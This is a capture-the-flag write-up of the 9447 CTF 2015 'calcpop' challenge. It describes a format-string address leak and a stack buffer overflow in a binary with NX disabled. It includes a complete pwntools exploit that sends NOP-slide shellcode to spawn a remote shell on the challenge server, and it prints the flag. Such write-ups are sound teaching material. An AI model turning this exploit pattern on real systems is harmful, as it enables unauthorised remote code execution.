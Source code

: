 ```yaml
---
layout: post
title: "9447ctf: calcpop"
author: f0rki
categories: writeup
---
```


* **Category:** Exploitation
* **Points:** 80
* **Solves:** 174
* **Description:**

> See if you can pop *this* calc.
>
> Running at calcpop-4gh07blg.9447.plumbing port 9447
>
>
[calcpop.tar.gz](https://github.com/ctfs/write-ups-2015/raw/master/9447-ctf-2015/exploitation/calcpop/calcpop-42928687007cc7a92fc0ac6028cf8f64.tar.gz)  42928687007cc7a92fc0ac6028cf8f6


## Write-up

We can connect to the challenge and send it two numbers, which it will add for
us. If we send something without a space, it will tell us the address of
our input, because instead of `%s` there is a `%p` in the format string:

```
Missing a space; your input was %p\n
```

Such a nice a infoleak. After some poking around I found that it is a straight
forward stack based buffer overflow:

```
$ python -c 'import sys; sys.stdout.write("A"*256)' | nc calcpop-4gh07blg.9447.plumbing 9447
Welcome to calc.exe
Missing a space; your input was 0xff8b44d0
Missing a space; your input was 0xff8b44d0
timeout: the monitored command dumped core
/usr/local/bin/ctf_wrapper.sh: line 6: 13607 Segmentation fault      timeout 300 $1 $2
```

Also using checksec we can see that `NX` is disabled.

```
$ checksec --file calcpop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   calcpop
```

Yeah exploitation like it's the 90's. So we put shellcode on the stack and
overwrite the return address with the address we got from the infoleak. This is
pretty straightforward using a pwntools script.

The flag was: `9447{shELl_i5_easIEr_thaN_ca1c}`


{% highlight python %}
#!/usr/bin/env python

from pwn import *  # NOQA

context.arch = 'i386'

velf = ELF('./calcpop')

BUFFERSIZE = 128

shellcode = shellcraft.linux.sh()
log.info("using shellcode:\n" + shellcode)
shellcode = asm(shellcode)
nopslide = "\x90" * (BUFFERSIZE - len(shellcode))
payload = nopslide + shellcode

context.log_level = 'debug'

vp = remote('calcpop-4gh07blg.9447.plumbing', 9447)
#vp = process('./calcpop')
#gdb.attach(vp)

vp.recvline()
vp.sendline("")
s = vp.recvline().strip()
leakedaddr = s.split(" ")[-1]
leakedaddr = long(leakedaddr, 16)
log.info("leaked the addr " + hex(leakedaddr))

retaddr = leakedaddr + 20
log.info("trying return to " + hex(retaddr))

payload += (p32(retaddr)) * 10
#payload += (p32(0x41414141)) * 100

vp.sendline(payload)
vp.clean_and_log()
vp.sendline("exit")
vp.clean_and_log()
vp.sendline("pwd;ls;whoami;")
vp.clean_and_log()
vp.interactive()

{% endhighlight %}


